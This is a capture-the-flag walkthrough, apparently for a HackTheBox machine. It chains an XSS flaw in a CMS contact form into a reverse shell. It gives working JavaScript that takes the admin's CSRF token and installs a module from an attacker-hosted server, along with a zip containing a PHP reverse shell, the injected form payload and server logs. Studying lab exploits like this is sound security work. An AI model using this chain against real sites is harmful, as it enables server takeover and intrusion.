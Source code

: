 Below is how to get the XSS CVE into a reverse shell with the environment given.

### Step 1

Setup the javascript file. The only requirements are it is a zip file and you DO NOT make the directoryName=bike. This will make the service completely unusable. 

```javascript
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = "http://sea.htb/?installModule=http://10.10.14.10:8081/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
```

### Step 2

Create your zip file. First make a directory which is where your shell will be uploaded post exploit. Then place a reverse shell within it. [Here is the one the exploit I found uses](https://github.com/prodigiousMind/revshell/blob/main/rev.php). It allow you to set parameters for lhost and lport for a modular shell. Then zip the directory and everything inside.

```bash
mkdir raccoon
nano raccoon/rev.php
zip main.zip raccoon*
```

### Step 3

Start a webserver from the same directory as your .js and zip files.

```bash
python3 -m http.server 8081
```

### Step 4

Send the payload through the contact form. I had some issues getting the script to overwrite with the same name so you will see I use raccoon2.js, you should see it grabbing your js file and your zip file.

```
Website Field Payload:
http://sea.htb/?page=index.php?page=loginURL?"></form><script+src="http://10.10.14.10:8081/raccoon2.js"></script><form+action="

Expected Response on Webserver:
10.129.6.216 - - [13/Aug/2024 00:53:05] "GET /raccoon2.js HTTP/1.1" 200 -
10.129.6.216 - - [13/Aug/2024 00:53:14] "GET /main.zip HTTP/1.1" 200 -
10.129.6.216 - - [13/Aug/2024 00:53:14] "GET /main.zip HTTP/1.1" 200 -
10.129.6.216 - - [13/Aug/2024 00:53:14] "GET /main.zip HTTP/1.1" 200 -
10.129.6.216 - - [13/Aug/2024 00:53:14] "GET /main.zip HTTP/1.1" 200 -
```
